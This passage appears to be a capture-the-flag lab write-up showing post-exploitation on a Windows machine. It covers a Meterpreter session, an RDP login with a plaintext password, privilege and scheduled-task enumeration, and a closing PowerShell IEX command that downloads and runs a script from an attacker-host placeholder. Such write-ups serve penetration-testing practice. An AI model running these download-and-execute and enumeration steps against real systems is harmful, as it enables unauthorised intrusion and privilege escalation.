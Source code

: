 ```
[*] Meterpreter session 1 opened (10.10.15.104:4444 -> 10.129.230.148:49690) at 2025-06-27 09:45:48 -0400
[*] Cleaning up
[*] Repository Opela_Job deleted.
```

```
┌──(dd0x㉿kali)-[~]
└─$ xfreerdp3 /u:john /p:"SuperSecurePass123" /v:10.129.230.148 /w:1366 /h:768
```

![[Pasted image 20250627221048.png]]

## Windows System Enumeration
#### User Information
determine what the user has permissions
```
whoami /priv
```

![[Pasted image 20250628235652.png]]
On the image
- **SeChangeNotiftPrivilege** - lets the user bypass directory traversal checks to naviate folders without explicit permissions (though it;s not immediateuly useful for us)
- **SeImpersonatePrivilege** - allows user to impersonate others atfter authentiacation-- an important capabiliy for potential privilege escalation
- **SeIncreaseWorkingSetPrivilege** - permits the user to increase the memory available to a process, which is a relatively minor privilege

#### Check groups
![[Pasted image 20250629000011.png]]
john belongs to several standard Windows groups like **Users, Remote Desktop Users, and Event Log Readers.** These groups grant basic access permissions but also suggest that this user has remote desktop capabilities, which we used to obtain a RDP session. The group memberships indicate this might be a regular user account with limited privileges, but we can perform additional checks with the commands **systeminfo and wmic qfe.**

![[Pasted image 20250629000422.png]]
- systeminfo command shoes detauled info about the windows system including the OS version, hardware, installed updates, and network settings
- wmic qfe speicifically lists all installed Windows updates (qfe stands for Quick Fix Engineering). 

Both commands require administrative or specific privieges to run, which is why we received Access Denied errors. so john is a regular user.

When administrators configure servers, they often want to optimize the server to their own needs and comfort. One way to do so is by scheduling tasks and operations, and having them happen on regular basis. 
```
schtasks /query /fo LIST /v
```

![[Pasted image 20250629001836.png]]
![[Pasted image 20250629001846.png]]

```
powershell "IEX(New-Object Net.WebClient).downloadString('http://<attacking-machine-IP>:8080/winpeas.ps1')" > winpeas.txt
```

